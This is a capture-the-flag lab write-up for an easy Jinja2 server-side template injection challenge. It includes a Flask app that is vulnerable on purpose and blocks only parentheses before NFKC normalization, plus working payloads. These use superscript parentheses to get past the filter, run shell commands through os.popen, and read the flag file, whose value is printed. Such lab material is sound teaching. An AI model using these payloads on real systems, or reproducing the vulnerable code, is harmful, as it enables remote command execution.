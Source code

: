 # SSTI-Easy 3

### Difficulty: Easy

### Objective: Bypass blacklisted ("(" and ")")

## Setting Up

Ensures that `Docker` is installed into your machine as this challenge requires Docker. If you're unsure how to do it, you can refer [here](https://www.kali.org/docs/containers/installing-docker-on-kali/) to install it into your Kali machine. Then, install the files `app.py` , `Dockerfile` and `flag-ae1fc7fb8d35721c7d5cd95b5e854349.txt` into the same directory.

### Commands (Kali)
[1] `sudo docker build -t sstichall .`

[2] `sudo docker run -d sstichall`

[3] `sudo docker logs <The container id>`

Use the first IP provided by the command [3] to access the challenge as highlighted below.

![image](https://github.com/user-attachments/assets/a2dc8099-2cb9-42d9-a8d2-c34d04b245e8)

Challenge should look like this and you are ready to go!

![image](https://github.com/user-attachments/assets/71d4d057-c35f-4c21-b28f-efaa2f35bff9)

## Solution 
<details>
  
The challenge starts with a text box and allows user input. Then, we starts with the a simple text "hello world" and observe its response.

![image](https://github.com/user-attachments/assets/8c6da092-9fc2-4a3b-9054-d900ca44c47d)

The website seems to return our text back as a response. 

![image](https://github.com/user-attachments/assets/03732c9a-86e7-4042-9ea6-9877e978db85)

Let's try using a simple SSTI payload `{{7*7}}` and observe its behaviour.

![image](https://github.com/user-attachments/assets/d853ed2f-3c60-48bd-880a-be6fa23756ca)

The website returns `49`! That means it is vulnerable to SSTI.

![image](https://github.com/user-attachments/assets/26b6ae54-1bfe-4884-9df2-66fe944dbcea)

Let's use a SSTI payload like `{{request.application.__globals__.__builtins__.__import__('os').popen('ls').read()}}` to list down files in the directory!

![image](https://github.com/user-attachments/assets/579ab938-dac5-4d4a-8aed-3edd8ad37819)

The website somehow is blocking our payload. Looks like they blacklisted some characters.

![image](https://github.com/user-attachments/assets/01fb2f5e-312b-48a1-b6b6-ffc1ceec65d7)

Let's analyze the source code and figure out what character did the website blacklisted.

### Source Code (python)
```python

from flask import Flask, request, render_template_string
import re
import unicodedata

app = Flask(__name__)

blacklisted = [r"\(", r"\)"]

@app.route('/', methods=('GET', 'POST'))
def index():
    try:
        if request.method == 'POST':
            note = request.form['note']
            if sanitize(note):
                normalized_note = normalize_input(note)
                return render_template_string(normalized_note)
            else:
                return 'Please provide valid text'
        return '''
            <form method="POST">
                Note: <input type="text" name="note">
                <input type="submit" value="Submit">
            </form>
        '''
    except:
        return 'Please provide valid text'

def sanitize(input_text):
    for pattern in blacklisted:
        if re.search(pattern, input_text):
            return False
    return True

def normalize_input(input_text):
    return unicodedata.normalize('NFKC', input_text)

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=5000, debug=True)

```

The website is confirmed to be vulnerable to SSTI (Jinja 2) as the source code contains the function `render_template_string`. However, there is a function that seems to be preventing us from reaching the vulnerable function which is the `sanitize()`. It will return boolean `False` when it detected the strings contains parenthesis which can prevent a regular SSTI payload. We can use another SSTI payload to bypass this sanitization by using [Unicode Normalization](https://book.hacktricks.xyz/pentesting-web/unicode-injection/unicode-normalization) technique. We can use another character equivalance of Left Parenthesis `U+0028` to Superscript Left Parenthesis `U+207D` and replace the Right Parenthesis `U+0029` to Superscript Right Parenthesis `U+207E`. The payload should look like this:

`{{request.application.__globals__.__builtins__.__import__⁽'os'⁾.popen⁽'ls'⁾.read⁽⁾}}`

Let's use this payload to list down the directories and see what happens.

![image](https://github.com/user-attachments/assets/cb17cb2d-0551-40a3-8f1f-f35957eb309d)

Looks like the payload works! We successfully view all the files contain inside the server directory. Let's try viewing the flag text file by using `cat` command:

`{{request.application.__globals__.__builtins__.__import__⁽'os'⁾.popen⁽'cat flag-ae1fc7fb8d35721c7d5cd95b5e854349.txt '⁾.read⁽⁾}}`

![image](https://github.com/user-attachments/assets/f7615ec3-3f49-4a86-a428-ab030c2fd2d0)

Thus, we have successfully obtained the flag.

## Flag
>flag{74c3377cca2f042c5819014f00cb4006} 

</details>
